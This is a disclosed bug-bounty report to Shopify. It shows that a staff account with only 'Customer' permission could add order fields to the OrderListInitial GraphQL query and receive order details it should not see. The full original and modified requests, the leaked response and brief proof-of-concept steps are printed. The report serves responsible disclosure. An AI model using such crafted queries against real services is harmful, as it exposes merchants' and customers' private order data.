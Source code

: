 # OrderListInitial leaks order details

## Report Details
- **Report ID**: 882412
- **URL**: https://hackerone.com/reports/882412
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-05-25T19:14:32.949Z
- **Disclosed**: 2020-08-18T19:52:15.050Z

## Reporter
- **Username**: sreeju_kc
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hello,

During my investigation I have noticed that OrderListInitial graphql operation is leaking more information that it suppose to be for a staff with "Customer" only permission.

Normally the graphql call is as below.

POST /admin/internal/web/graphql/core HTTP/1.1
{"operationName":"OrderListInitial","variables":{},"query":"query OrderListInitial {\n  localDeliveryEnabled\n  shop {\n    id\n    ordersDelayedSince\n    appLinks(type: ORDERS, location: INDEX) {\n      id\n      text\n      url\n      icon {\n        transformedSrc(maxWidth: 80)\n        __typename\n      }\n      __typename\n    }\n    appActions: appLinks(type: ORDERS, location: ACTION) {\n      id\n      text\n      url\n      icon {\n        transformedSrc(maxWidth: 80)\n        __typename\n      }\n      __typename\n    }\n    plan {\n      trial\n      __typename\n    }\n    showInstallMobileAppBanner\n    features {\n      fraudProtectEligibility\n      eligibleForBulkLabelPurchase\n      __typename\n    }\n    currencyCode\n    __typename\n  }\n  locationsExist: locations(first: 2, includeLegacy: true) {\n    edges {\n      node {\n        id\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n  ordersAll: orders(first: 1, reverse: true) {\n    edges {\n      node {\n        id\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"}

and the response is below.

"ordersAll":{"edges":[{"node":{"id":"gid:\/\/shopify\/Order\/1936560029718","__typename":"Order"},"__typename":"OrderEdge"}],"__typename":"OrderConnection"}},

But when included more fields in the call as below.

{"operationName":"OrderListInitial","variables":{},"query":"query OrderListInitial {\n  localDeliveryEnabled\n  shop {\n    id\n    ordersDelayedSince\n    appLinks(type: ORDERS, location: INDEX) {\n      id\n      text\n      url\n      icon {\n        transformedSrc(maxWidth: 80)\n        __typename\n      }\n      __typename\n    }\n    appActions: appLinks(type: ORDERS, location: ACTION) {\n      id\n      text\n      url\n      icon {\n        transformedSrc(maxWidth: 80)\n        __typename\n      }\n      __typename\n    }\n    plan {\n      trial\n      __typename\n    }\n    showInstallMobileAppBanner\n    features {\n      fraudProtectEligibility\n      eligibleForBulkLabelPurchase\n      __typename\n    }\n    currencyCode\n    __typename\n  }\n  locationsExist: locations(first: 2, includeLegacy: true) {\n    edges {\n      node {\n        id\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n  ordersAll: orders(first: 1, reverse: true) {\n    edges {\n      node {\n        id\n   billingAddressMatchesShippingAddress\n  canMarkAsPaid\n  canMarkAsPaid\n   capturable\n clientIp\n  createdAt\n  discountCode\n  displayFinancialStatus \n displayFulfillmentStatus\n edited\n email\n fulfillable\n fullyPaid\n merchantEditable\n name\n note\n paymentGatewayNames\n phone\n  refundable\n requiresShipping\n restockable\n  unpaid\n  __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"}

The response i received is below.

"ordersAll":{"edges":[{"node":{"id":"gid:\/\/shopify\/Order\/1936560029718","
billingAddressMatchesShippingAddress":false,
"canMarkAsPaid":true,
"capturable":false,
"clientIp":null,
"createdAt":"2020-05-24T21:13:29Z",
"discountCode":null,
"displayFinancialStatus":"PENDING",
"displayFulfillmentStatus":"UNFULFILLED",
"edited":false,
"email":null,
"fulfillable":true,
"fullyPaid":false,
"merchantEditable":false,
"name":"#1006#",
"note":null,
"paymentGatewayNames":["Test"],
"phone":null,
"refundable":false,
"requiresShipping":true,
"restockable":true,
"unpaid":false,"__typename":"Order"},"__typename":"OrderEdge"}],"__typename":"OrderConnection"}

This disclose so many information for a staff with "Customer" only permission (no Order permission)


I haven't tried every possible calls in the order scope, i did not try mutation as well.

Normally a customer should see below informations only for the order linked to the customer.

Orders placed
Order #1006#
Tomorrow at 5:13 pm at 5:13 PM
€1.00 from Draft Orders
AttentionIncompleteUnfulfilled

But you can see here it leaks nearly every information about the order.

POC:
1)Create products, customer and orders.
2)Add a staff with "Customer" only permission  and call the graphql call mentioned above.

## Impact

Make sure that only required informations are disclosed for staff with customer only permission.

## Attachments
- Screenshot_2020-05-25_at_20.37.52.png
- Screenshot_2020-05-25_at_20.59.01.png
- Screenshot_2020-05-25_at_20.59.43.png
